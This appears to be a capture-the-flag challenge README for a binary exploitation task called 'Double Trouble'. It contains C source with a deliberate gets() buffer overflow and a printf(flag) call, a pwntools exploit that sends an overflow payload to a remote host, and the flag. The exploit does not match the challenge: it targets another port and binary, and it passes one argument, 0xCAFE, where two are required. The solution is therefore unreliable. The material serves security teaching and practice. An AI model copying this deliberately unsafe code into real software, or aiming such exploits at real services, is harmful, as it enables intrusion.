# Double Trouble

Difficulty Level: Medium
 
Double the arguments, double the fun
 
Connect via `nc challenge.ctf-fun.xyz 14010`

PS: Challenges in this category require a linux environment read [here](https://docs.google.com/document/d/13RjL_RWibA9xYOKvSCXpTGG0D2ZYa3kDzprGNa8ypeA/edit?usp=sharing) for a guide to installing a linux VM

### Hints

- No hints provided


## Deployment

```bash
cd service
sudo ./doubletrouble.sh &
```

## Solution
Similar to arguable function just with 2 arguments instead of 1.

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

#define FLAGSIZE 64

char flag[FLAGSIZE];

void win(long arg1, long arg2){
	FILE *f = fopen("flag.txt","r");
	
	if (f == NULL) {
		printf("Flag File is Missing.\n");
		exit(0);
	}

	fgets(flag,FLAGSIZE,f);

	if (arg1 == 0xdeadbeef || arg2 == 0xcafebabe){
		if (arg1 == 0xdeadbeef && arg2 == 0xcafebabe) {
			printf(flag);
		}
		else {
			printf("One of your argument is wrong.\n");
		}
	}
	else {
		printf("Both arguments are wrong.\n");
	}
}


void vulnerable() {
	char buf[64] = {0x00};
	
	gets(buf);

	puts("Meh.");
	return;	
}

int main() {
	setvbuf(stdout, NULL, _IONBF, 0);
	puts("Double the arguments, double the fun?");
	vulnerable();
	return 0;
}
```

```python
"""
This exercise focus on how functions are called.

for 32 bit programs, when you call a function, the arguments are pushed before calling the function.


| Function parameter 3	|
| Function parameter 2	|
| Function parameter 1	|
| Return Address 		|
| ebp					|

when we want to call a function with paramters we must simulate a normal function call by
adding a fake return address then adding the parameters.

"""

from pwn import *

def main():
	win_addr = 0x080491c2

	payload = b"A" * 112 + p32(win_addr) + b"B" * 4 + p32(0xCAFE)

	#io = process("./arguablefunction")
	io = remote("challenge.ctf-fun.xyz", 14009)

	io.sendline(payload)
	io.interactive()

if __name__ == '__main__':
	main()
```


### Flag
19C4{l3aking_f14gz_w1th_y0u}